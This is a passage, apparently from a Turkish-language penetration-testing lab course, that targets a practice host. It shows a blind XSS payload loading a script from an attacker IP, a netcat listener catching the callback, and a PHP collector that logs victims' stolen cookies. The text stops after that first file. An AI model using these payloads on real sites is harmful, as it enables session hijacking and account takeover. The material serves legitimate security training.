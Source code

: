 Buradan itibaren, **status** veritabanındaki tüm verileri dump deneyebilir ve bir başka bulgu olan **SQL Injection**'ı kaydedebiliriz. Bunu manuel olarak denemek için **SQL Injection Fundamentals** modülünü rehber olarak kullanabilirsiniz. Araç tabanlı bir yaklaşıma ihtiyaç duyarsanız, **SQLMap Essentials** modülüne başvurabilirsiniz.


## support.inlanefreight.local

Devam edersek, http://support.inlanefreight.local sitesine göz atıyoruz ve bunun bir BT destek portalı olduğunu görüyoruz. Destek bileti portalları canlı bir kullanıcıyla etkileşime geçmemizi sağlayabilir ve bazen bir Cross-Site Scripting (XSS) güvenlik açığı yoluyla bir kullanıcının oturumunu ele geçirebileceğimiz bir client-side saldırısına yol açabilir. Uygulamada gezinirken, bir support ticket oluşturabileceğimiz /ticket.php sayfasını buluyoruz. Bakalım bir tür kullanıcı etkileşimi tetikleyebilecek miyiz? Bir bilet için tüm ayrıntıları doldurun ve Message alanına aşağıdakileri ekleyin:

```javascript
 "><script src=http://10.10.14.15:9000/TESTING_THIS</script>
```

IP'yi kendi IP'niz olarak değiştirin ve 9000 portunda (veya istediğiniz portta) bir Netcat dinleyicisi başlatın. Gönder düğmesine tıklayın ve güvenlik açığını onaylamak için bir callback için listener'ınızı kontrol edin.

```shell-session
[!bash!]$ nc -lvnp 9000

listening on [any] 9000 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.203.101] 56202
GET /TESTING_THIS%3C/script HTTP/1.1
Host: 10.10.14.15:9000
Connection: keep-alive
User-Agent: HTBXSS/1.0
Accept: */*
Referer: http://127.0.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

Bu bir Blind Cross-Site Scripting (XSS) saldırısı örneğidir. Blind XSS tespit yöntemlerini Cross-Site Scripting (XSS) modülünde inceleyebiliriz.

Şimdi bir yöneticinin cookie'sini nasıl çalabileceğimizi bulmamız gerekiyor, böylece giriş yapabilir ve ne tür bir erişim elde edebileceğimizi görebiliriz. Bunu aşağıdaki iki dosyayı oluşturarak yapabiliriz:

1. index.php

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
